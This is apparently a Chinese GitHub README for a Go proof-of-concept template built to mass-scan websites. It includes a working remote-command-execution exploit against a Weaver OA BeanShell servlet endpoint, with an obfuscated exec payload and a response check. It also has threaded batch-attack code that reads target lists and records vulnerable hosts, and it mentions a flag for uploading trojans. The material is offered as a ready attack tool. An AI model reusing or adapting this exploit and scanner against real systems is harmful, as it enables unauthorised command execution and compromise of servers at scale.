 # GO语言版 poc模版

# 2023.10.27更新

增加参数-att,默认为检查，尽可能降低危害，使用参数-att后可进行上传木马等操作

具体代码为attack_from_url，将之前的attack_from_url修改为check_from_url，用来进行默认的无危害检查。

# 2023.5.26更新

使用httpx库替换net/http标准库

## 使用说明

之前写过一个python的poc模版，完成了多线程扫描、单线程扫描，结果输出到文件、代理等功能，而最近在学习go，所以也重新写了一个go语言版的poc模版，同样完成了多线程扫描、单线程扫描、输出到文件、代理等功能。方便大家快速编写自己的poc。

![image-20230130202636364](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130202636364.png)

## poc编写

在代码中，大部分功能都无需修改，仅需修改attack_from_url函数即可。

```go
func attack_from_url(target_url *string) string {
	path := "/weaver/bsh.servlet.BshServlet"
	targetUrl := *target_url + path
	body := "bsh.script=ex\\u0065c(\"cmd /c dir\");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"
	reader := strings.NewReader(body)
	request, err := http.NewRequest("POST", targetUrl, reader)
	if err != nil {
		panic(err)
	}
	request.Header.Set("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8")
	request.Header.Set("User-Agent", "Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0")
	client := set_proxy()
	resp, err := client.Do(request)
	if err != nil {
		print.red.Println("[-] " + *target_url + " 访问错误")
	} else {
		bodys, err := ioutil.ReadAll(resp.Body)
		if err != nil {
			panic(err)
		}
		body_data := string(bodys)
		if strings.Contains(body_data, "Program Files") {
			print.green.Println("[+] " + *target_url + " 存在任意命令执行漏洞")
			return *target_url
		} else {
			print.yellow.Println("[-] " + *target_url + " 不存在任意命令执行漏洞")
		}
		defer resp.Body.Close()
	}
	return ""
}
```

代码如上，以某微OA命令执行漏洞为例。首先在第二行设置了攻击的路径path，然后在第4行设置了body，如果为get请求，则删除4、5行以及第六行的reader即可。然后在10-11行设置了请求体。最后在22行对相应包的包体中的内容进行比对，来判定漏洞是否攻击成功。修改别的poc也仅需修改这些即可。

## 使用效果

![](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130201639696.png)

## 代码说明

```go
func main() {
	var target_url string
	var target_file string

	poc_name = ""

	set_screen_color()
	print_head()

	app := cli.App{
		Name:  "go poc模版",
		Usage: "一款通用的go语言poc模版",
		Flags: []cli.Flag{
			cli.StringFlag{
				Name:        "target_url,u",
				Usage:       "读取单个目标的`url`",
				Destination: &target_url,
			},
			cli.StringFlag{
				Name:        "target_file,f",
				Usage:       "从`File`读取批量读取URL",
				Destination: &target_file,
			},
			cli.StringFlag{
				Name:        "output,o",
				Usage:       "扫描结果输出到`File`",
				Destination: &output_file,
				Value:       "success.txt",
			},
			cli.StringFlag{
				Name:        "proxy,p",
				Usage:       "代理的`url`地址",
				Destination: &proxy,
			},
			cli.IntFlag{
				Name:        "thread,t",
				Usage:       "批量扫描时的线程`数量`",
				Destination: &threads,
				Value:       20,
			},
		},
		Action: func(c *cli.Context) error {
			if target_url != "" && target_file != "" {
				print.red.Println("[-] 请选择到底是进行单个扫描还是进行批量扫描！")
				os.Exit(0)
			} else if target_url != "" {
				attack_from_url(&target_url)
			} else if target_file != "" {
				attack_from_file(&target_file)
			}
			return nil
		},
	}
	err := app.Run(os.Args)
	if err != nil {
		log.Fatal(err)
	}
}
```

首先在main函数中，定义需要的一些变量，设置命令行输出的颜色以及poc头信息，通过cli库来完成命令行操作的内容，然后在用户输入完命令后，进行判断，判断进行单线程扫描还是多线程扫描，如果进行单线程扫描，则直接进入attack_from_url函数对目标进行攻击，如果进行多线程扫描，则进入attack_from_file函数对存放攻击目标的文件进行处理。

```go
func attack_from_file(target_file *string) {
	success_url_list := list.New()
	target_url_lists := read_file(target_file)
	var data string
	string_chan := make(chan string)
	target_chan := make(chan string)
	if target_url_lists.Len() > 0 {
		print.blue.Println("[*] 成功读取目标，共计", target_url_lists.Len(), "个目标")
		for i := 0; i < threads; i++ {
			go attack_from_urls(target_chan, string_chan)
		}
		go func() {
			for i := target_url_lists.Front(); i != nil; i = i.Next() {
				target_url := fmt.Sprintf("%s", i.Value)
				target_chan <- target_url
			}
		}()
		for i := 0; i < target_url_lists.Len(); i++ {
			data = <-string_chan
			if data != "" {
				data = data + "\n"
				success_url_list.PushBack(data)
			}
		}
		close(string_chan)
		close(target_chan)
		write_file(success_url_list)
		print.blue.Println("[*] 共扫描个", target_url_lists.Len(), "目标，存在漏洞目标", success_url_list.Len(), "个。")
		print.blue.Println("[*] 扫描结果已保存到", output_file)
	} else {
		print.red.Println("[-] 未读取到目标，请检查文件中是否存在目标！")
	}
}
```

在attack_from_file文件中，首先创建两个列表，一个用来存放文件中读取出来的攻击目标，一个用来存放攻击成功的目标。然后创建两个管道，用来和子线程进行通信。如果读取到大于0个url，则打印读取的目标数，并根据用户给定的线程数量开启线程。然后另开启一个线程，循环读取列表中存放的攻击目标，并将其输入管道。而后在主线程中开启一个循环，循环利用管道接收线程的攻击结果。最后将结果写入文件。

```
func attack_from_urls(target_chan, string_chan chan string) {
	for target_url := range target_chan {
		data := attack_from_url(&target_url)
		string_chan <- data
	}
}
```

而在上述代码中，我们使用attack_from_urls作为子线程，在该函数中，我们利用for循环从管道中读取目标，并交给attack_from_url函数进行攻击，并将返回的攻击结果通过管道发送回attack_from_file函数中进行接收，并最后写入文件。

整个的代码逻辑还是十分简单，至于颜色和读取文件写入文件等函数，大家可以自行查看，希望可以帮助到大家。